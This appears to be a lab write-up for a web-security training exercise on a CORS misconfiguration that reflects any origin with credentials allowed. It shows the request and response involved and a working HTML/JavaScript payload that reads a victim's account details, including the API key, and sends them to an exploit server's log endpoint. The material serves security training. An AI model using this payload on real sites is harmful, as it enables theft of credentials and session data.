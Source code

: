 # 1 - Basic Origin Reflection

### Notes

This website has an insecure CORS configuration in that it trusts all origins.

When an Origin header with any value is added to requests to `/accountDetails`, the application echoes it in the `Access-Control-Allow-Origin` response header.

```http
GET /accountDetails HTTP/1.1

Origin: https://random-website.com
```

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://random-website.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "jFjdQBJldim1j7cv1Zm8C0BiImuskK5U",
  "sessions": [
    "2K43vdr9uBieBO6hKPxign5cBBk0RkHv"
  ]
}
```

### Solution

The following payload, delivered to the user, can be used to log their API key in the lab's exploit server:

```html
<html>
  <body>
    <script>
      const xhr = new XMLHttpRequest()
      const labUrl = 'https://acb81fbb1f7d870ec0f52ab300bf0064.web-security-academy.net'

      xhr.onreadystatechange = () => {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          fetch(`/log?key=${xhr.responseText}`)
        }
      }

      xhr.open('GET', `${labUrl}/accountDetails`, true)
      xhr.withCredentials = true

      xhr.send(null)
    </script>
  </body>
</html>
```
